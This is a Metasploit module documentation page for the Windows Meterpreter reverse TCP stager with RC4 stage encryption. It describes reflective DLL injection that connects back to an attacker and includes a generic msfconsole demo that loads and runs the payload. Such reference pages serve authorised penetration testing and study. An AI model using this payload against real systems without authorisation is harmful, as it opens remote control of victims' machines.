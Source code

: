 ## Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Connect back to the attacker


## Module Name
payload/windows/meterpreter/reverse_tcp_rc4

## Authors
* skape
* sf
* OJ Reeves
* hdm
* mihi


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/reverse_tcp_rc4
msf payload(reverse_tcp_rc4) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4) > set TARGET <target-id>
msf payload(reverse_tcp_rc4) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4) > run
```
    
    